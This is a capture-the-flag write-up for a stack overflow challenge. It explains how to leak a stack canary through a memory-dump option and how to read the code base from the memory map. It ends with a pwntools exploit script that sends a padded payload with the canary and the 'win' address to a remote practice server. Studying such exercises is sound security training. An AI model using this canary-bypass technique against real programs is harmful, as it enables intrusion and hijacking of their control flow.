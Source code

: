 The stack canary is kept at ebp-0x8. Now that we have ebp-0x71 we can work out what address this is and enter it in the "input data". We set length of input to 6 to account for the 4 bytes of the address, 1 byte for the newline character, and 1 byte for null terminator added by `fgets`.

After this we dump the memory at this address. Since 0x16 bytes are outputted, we just take the first 4 bytes returned and thats the canary.

Now that we have the canary, we need to get the address of the `win` function. We do this by printing the memory map:
```
56615000-56616000 r-xp 00000000 08:01 8756
```
the first line should start with something like the above. The very first value is the base of the code segment, so in this case 0x56615000. To get the `win` address from this value we add it's offset in the vinary which is 0x076d.

Next we need to input our buffer overflow payload. Bearing in mind that the input buffer starts at ebp-0x68, we need a length of 0x72. We use 0x60 bytes of padding, then the stack canary (starting at ebp-0x8), then 8 more bytes of padding, the `win` address (starting at ebp+0x4) and then a newline character, and the null terminator added on by `fgets`.

Exploit:
```
from pwn import *

p = remote('plsdonthaq.me', 5002)
#p = process('./stack-dump2')

p.recvuntil('stack pointer ')

ebp_0x71 = int(p.recvline().rstrip(), 16)
ebp = ebp_0x71 + 0x71

p.recvlines(4)

p.sendline('a')

## leak canary
# length is 4bytes of address + \n + \x00
p.sendlineafter('len: ', b'6')
# canary is kept at ebp-0x8
p.sendline(p32(ebp-0x8))
p.recvlines(6)
p.sendline('b')
p.recvuntil(': ')
canary = p.recvline().rstrip()[:4]
p.recvlines(4)

## leak code segment base addr

p.sendline(b'c')
base_addr = b'0x'+p.recvuntil('-',drop=True)
win_addr = int(base_addr, 16) + 0x076d

## buffer overflow

p.sendlineafter('d) quit\n', b'a')
# buffer at 0x68, +0x8 to account for return addr from ebp+0x4 to ebp+0x8
# and +0x2 to account for the \n and added null terminator
p.sendlineafter('len: ', str(0x68+0x8+0x2).encode())

precanary_padding = b'A'*0x60
postcanary_padding = b'A'*0x8
payload = precanary_padding + canary + postcanary_padding + p32(win_addr)

p.sendline(payload)
```